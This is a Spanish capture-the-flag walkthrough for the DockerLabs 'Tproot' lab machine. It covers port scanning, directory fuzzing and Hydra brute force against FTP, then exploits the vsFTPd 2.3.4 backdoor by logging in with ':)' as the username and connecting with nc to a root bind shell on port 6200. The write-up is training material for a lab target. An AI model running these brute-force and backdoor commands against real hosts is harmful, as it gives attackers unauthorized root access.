





# Tproot (DockerLabs)

**IP:** 172.17.0.2

**Dificultad:** Fácil

**Vector:** vsFTPd 2.3.4 backdoor → root directo

---

## Recon

### Descubrimiento de host

```bash
arp-scan -I docker0 --resolve
```

Objetivo: `172.17.0.2`

### Escaneo de puertos

```bash
nmap -sS -p- -sV -O --open --min-rate 5000 -n -oN scan 172.17.0.2
```



| Puerto | Servicio |
| ------ | -------- |
| 21     | FTP      |
| 80     | HTTP     |

### Enumeración web

Acceso al puerto 80: Apache2 sin contenido relevante. Código fuente (`Ctrl+U`) sin comentarios ni pistas.

Fuzzing de directorios sin resultados:

```bash
dirb http://172.17.0.2

gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php,html,xml,txt

gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,html,xml,txt,py
```

### Enumeración FTP

Acceso anónimo probado sin éxito:

```bash
ftp 172.17.0.2
```

Fuerza bruta con Metasploit (`ftp_login`) sin resultados. Fuerza bruta con Hydra sin resultados:

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt ftp://172.17.0.2
```

### Identificación de versión

Banner grab directo sobre el puerto 21:

```bash
nc 172.17.0.2 21
```



Versión identificada: **vsFTPd 2.3.4**

```bash
searchsploit vsFTPd 2.3.4
```



Exploit disponible: backdoor conocido para esta versión.

---

## Vulns

### vsFTPd 2.3.4 — Backdoor (CVE-2011-2523)

La versión 2.3.4 del código fuente de vsFTPd fue comprometida en su distribución oficial en 2011. El backdoor se activa introduciendo la cadena `:)` en el campo username del login FTP, lo que abre un bind shell como root en el puerto **6200**.

---

## Xploit

### Intento con Metasploit

```bash
msfconsole
search vsftpd 2.3.4
show options
set RHOSTS 172.17.0.2
set LHOST 192.168.1.65
run
```

El módulo `exploit/unix/ftp/vsftpd_234_backdoor` falla al conectar.

### Explotación manual

Ejecuto el backdoor manualmente introduciendo `:)` como usuario:

```bash
ftp 172.17.0.2
```

```
Name: :)
Password: asdasd
```



Conexión al bind shell abierto en el puerto 6200:

```bash
nc 172.17.0.2 6200
```



Shell obtenida como **root** directamente, sin necesidad de privesc.

---
